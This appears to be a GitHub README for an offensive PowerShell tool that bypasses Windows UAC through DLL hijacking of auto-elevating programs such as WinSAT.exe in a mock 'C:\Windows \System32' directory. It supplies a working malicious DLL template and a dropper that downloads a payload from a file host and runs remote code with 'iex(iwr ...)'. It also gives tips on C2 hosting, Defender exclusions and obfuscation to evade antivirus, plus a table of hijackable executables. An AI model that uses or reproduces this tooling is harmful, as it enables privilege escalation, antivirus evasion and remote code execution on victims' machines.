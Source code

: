 <!-- # Powershell UAC bypass -->
<img src="https://i.snipboard.io/b2ozpR.jpg"></img>


<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#deployment">Deployment</a>
	  <ul>
	  	<li> <a href="#execution-timeline">Execution timeline</a></li>
		<li> <a href="#creating-the-payload">Creating the payload</a></li>
	  </ul>
    </li>
        <li>
      <a href="#terms">Terms And Definitions</a>
          <ul>
        <li><a href="#what-is-uac">What is UAC?</a></li>
        <li><a href="#dll-hijacking">DLL Hijacking</a></li>
        <li><a href="#mock-directories">Mock Directories</a></li>
    </ul>
    </li>
    <li><a href="#auto-elavate-applications">Auto elavate applications</a></li>
    
  </ol>
</details>

---


# Deployment

---

## Execution timeline

This powershell payload is simply an advanced dropper, paving way for the exploit we use to be ran with administrative permissions.

1. The powershell payload is run
2. It creates a directory "C:\Windows \System32"
3. It copies an autoelavate program from its original location to the mock directory
   1. C:\Windows\System32\WinSAT.exe -> C:\windows \System32\winSAT.exe
4. It downloads your malicious DLL from your C2
5. It starts the auto elevate application, then deletes the parent mock directory



---
## Creating the payload

First, we need to create the file to be dropped, If you dont have a server setup - use  [Filebin](https://filebin.net/). Though it has had a history of deleting files with no notice.

To easiliy create said DLL  - I would modify [This template](https://github.com/salasak/prxdll_templates) with the code below. You can also use the template providied in this projects source code.

prxdll_version/dllmain.c  - source/dll_template/dllmain.c
```c++
#include "pch.h"
#include "prxdll.h"
#include "windows.h"
BOOL APIENTRY DllMain(
	const HINSTANCE instance,
	const DWORD reason,
	const PVOID reserved)
{
	switch (reason) {
	case DLL_PROCESS_ATTACH:
		WinExec("powershell -NoProfile -ExecutionPolicy bypass -windowstyle hidden -Command \"Start-Process -verb runas powershell\" \"'-NoProfile -windowstyle hidden -ExecutionPolicy bypass -Command iex( iwr https://textbin.net/raw/yw9xytxlsa )\" '\"", 1);
		DisableThreadLibraryCalls(instance);
		return prx_attach(instance);
	case DLL_PROCESS_DETACH:
		prx_detach(reserved);
		break;
	}
	return TRUE;
}
```
The code above is ran with administrative permissions, however - the powershell session is not in admin. For the powershell command you use, I suggest the iex method for its ease and shortness.
```powershell
iex (iwr c2.url) # I suggest textbin for its minimal guidelines compared to pastebin
```


Next you need to choose your autoelavate application. I prefer to use winSAT.exe as there is nothing appears when ran. Heres some other <a href="#auto-elavate-applications">Auto elavate applications</a>.

Now edit the powershell dropper
```powershell
New-Item '\\?\C:\Windows \System32' -ItemType Directory
Set-Location -Path '\\?\C:\Windows \System32'
copy C:\Windows\System32\WinSAT.exe "C:\windows \System32\winSAT.exe"
Invoke-WebRequest -Uri 'https://filebin.net/bajzrgruy6h83o4n/version.dll' -OutFile 'version.dll'
Start-Process -Filepath 'C:\windows \System32\winSAT.exe'
Start-Sleep -s 1
Remove-Item '\\?\C:\Windows \' -Force -Recurse
```

First modification:
* Build your DLL using visual studio code and upload it to filebin. My DLL adds a windows defender preference to not scan the TEMP directory
* Replace the Invoke-WebRequest Uri with your link and replace the copy and start procsess argument with the location of your autoelavate application.
* Replace every new line with a semicolon and convert it into a batch script to bypass exectuion policies.
```cmd
powershell.exe -windowstyle hidden -NoProfile -ExecutionPolicy bypass -Command "Yourcodehere"
```
And boom! You can execute that system command bypass UAC!

For a final step, [Obfuscate](https://github.com/danielbohannon/Invoke-Obfuscation) your code, and fetch and execute it to bypass most antiviruses.

```batch
powershell.exe -windowstyle hidden -NoProfile -ExecutionPolicy bypass -Command "iex ( iwr textbinurl)"
```

Remember - you can program this into most high level languages - as all you need to do is execute a system command!


---
<br>

# Terms

## What Is UAC
Microsoft introduced UAC (User Account Control) with Windows Vista and Windows Server 2008.\
In short terms - UAC aims to improve the security of Microsoft Windows by giving programs standard user privileges until an administrator authorizes an increase or elevation of permissions.  [Wikipedia](https://en.wikipedia.org/wiki/User_Account_Control#Features)

<br>

## DLL Hijacking
DLL Hijacking means a program will load and execute a malicious DLL contained in the same folder as a data file opened by these programs.
[Wikipedia](https://en.wikipedia.org/wiki/Dynamic-link_library#DLL_hijacking)

<br>

## Mock directories
Heres a description I stole from [daniels blog](http://daniels-it-blog.blogspot.com/2020/07/uac-bypass-via-dll-hijacking-and-mock.html)

Mock directories are folders with a trailing space. For example \
```
C:\Windows \System32
```


See the space " " between "Windows" and "\System32".\


##  Auto elavate applications
<table bgcolor="" cellpadding="2" cellspacing="0" style="background: rgb(255, 255, 255); width: 643px;">
	<colgroup><col width="341">
	<col width="75">
	<col width="213">
	</colgroup><tbody><tr bgcolor="" style="background: rgb(229, 229, 229);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<strong><font color="#000000"><font face="">Executable</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<strong><font color="#000000"><font face="">DLL</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<strong><font color="#000000"><font face="">Comment</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ComputerDefaults.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods.</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">EASPolicyManagerBrokerHost.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">fodhelper.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			settings and can be used to bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">FXSUNATD.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">msconfig.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">OptionalFeatures.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Optional Features</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sdclt.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods; opens Windows Backup</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe
			is not present by default</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">systemreset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sysprep.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Creates
			sub folder.&nbsp;</font></font><strong><font color="#000000"><font face="">Sysprep
			process has to be killed directly after UAC bypass, otherwise
			sysprep is executed!</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">SystemSettingsAdminFlows.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WinSAT.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WSReset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Store</font></font></p>
		</td>
	</tr>
</tbody></table>
